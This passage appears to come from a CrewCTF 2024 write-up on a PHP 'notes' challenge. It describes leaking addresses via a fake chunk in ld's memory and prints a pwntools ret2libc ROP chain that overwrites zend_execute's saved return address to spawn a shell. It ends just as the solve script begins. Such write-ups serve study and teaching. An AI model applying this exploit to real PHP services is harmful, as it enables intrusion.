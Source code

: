 // ...

{{< /code >}}

And here we go. We can use arbitrary write to place `";` in the last read/write segment of ld, craft a fake chunk and get all leaks we need to exploit PHP. After obtaining a leak of ld, we can calculate all other addresses as offset and inside the segment, there are even a heap and stack (environ) leaks.

### One/1000000 gadget

During my tests, one weirdness caught my attention: the `phpversion()` function. While debugging the execution, I discovered that the address of this function is stored in a virtual table located on the heap, and this function resides at offset *0x80238*. After I got the heap leak, I tried to overwrite that address with a one-gadget, but with no luck...

So, we can use the classic ret2libc technique to gain a shell by overwriting the saved RIP of the `zend_execute` function with the following ROP chain:

{{< code language="python" title="Rop chain" id="14" expand="Show" collapse="Hide" isCollapsed="false" >}}

rop = ROP(libc)
binsh = next(libc.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

chain = flat(
    p64(pop_rdi),
    p64(binsh),
    p64(ret),
    p64(libc.sym.system),
)

create_note(r, b"0", b"AA" + chain + cyclic(0x50 - len(chain) - 2))

# Trigger
r.sendlineafter(b">", b"")

{{< /code >}}

## Conclusion

I didn't solve this challenge during CrewCTF 2024 because I spotted the vulnerability too late, but I enjoyed solving it and learning more about PHP internals. I was surprised to find this misalignment issue, especially since it isn't documented in the PHP docs for *shmop_open* and *shm_attach*. I verified that this problem can occur even in *PHP 8.3.6*. It's likely considered bad practice to manually choose the key value, which is why the examples suggest using `$shm_key = ftok(__FILE__, 't');`.


Here is the commented script, downloadable [here](/scripts/crew_ctf_2024_php-notes.py):

{{< code language="python" title="Solve script" id="15" expand="Show" collapse="Hide" isCollapsed="true" >}}
from pwn import *
